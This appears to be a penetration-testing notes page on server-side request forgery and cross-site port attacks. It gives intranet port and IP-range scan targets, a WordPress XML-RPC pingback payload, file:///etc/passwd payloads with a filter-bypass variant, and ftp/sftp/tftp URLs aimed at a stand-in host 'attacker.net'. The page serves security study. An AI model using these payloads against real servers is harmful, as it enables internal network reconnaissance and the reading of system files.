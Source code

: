 # SSRF (II)

****

## XSPA (Cross Site Port Attack) <a href="#xspa" id="xspa"></a>

Cross-site Port Attacks (XSPA) are very common in which the hacker injects the malicious script to retrieve information on TCP ports and IP addresses. XSTA allows attackers to abuse available functionality in most web applications to port scan intranet and external Internet facing servers, fingerprint internal (non-Internet exposed) network aware services, perform banner grabbing, identify web application frameworks, exploit vulnerable programs, run code on reachable machines, exploit web application vulnerabilities listening on internal networks, read local files using the file protocol and much more.

### General

For more general cases, it is recommended to use Burpsuite's Intruder to "scan" and filter through all open ports on a machine:

```
127.0.0.1:21
127.0.0.1:5985
```

In addition to scanning ports, an attacker could also run a scan of running hosts trying to ping private IP addresses:

```bash
192.168.0.0/16 # More common
172.17.0.0/16 # Docker segment
172.16.0.0/12
10.0.0.0/8
```

### WordPress

For WordPress, XMLRPC is used along with its pingback mechanism to bypass any IP masquerading, such as a basic WAF like Cloudflare.

In an XSPA attack, the hacker uses the pingback. ping method to pingback a post on a target website which, in turn, sends the IP address as a response. The hacker uses a sniffer to create the endpoint to send the pingback and a live URL of a blog post.

The hackers send the following request from their server:

```bash
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```

If the response contains a fault code and a value greater than 0 then it means the port is open for you to start sending the HTTP packets directly.

{% embed url="https://www.valters.eu/wordpress-cross-site-port-attack-xspa" %}

### **Time-Based XSPA**

{% embed url="https://www.elladodelmal.com/2016/05/time-based-xspa-cross-site-port-attack.html" %}

## **Accessing Internal Files via URL Scheme**

Attacking the URL scheme allows an attacker to fetch files from a server and attack internal services:

```bash
file:///etc/passwd
file://\/\/etc/passwd
file://path/to/file
```

## **Accessing Internal Services via URL Scheme**

With an SSRF vulnerability, we can try to connect to certain services by changing the URL scheme. Examples for file transfer protocols:

```bash
ftp://attacker.net:11211/
sftp://attacker.net:11111/
tftp://attacker.net:123456/TESTUDP
```

## Obtaining Access to Cloud Provider Metadata

Work in progress.\
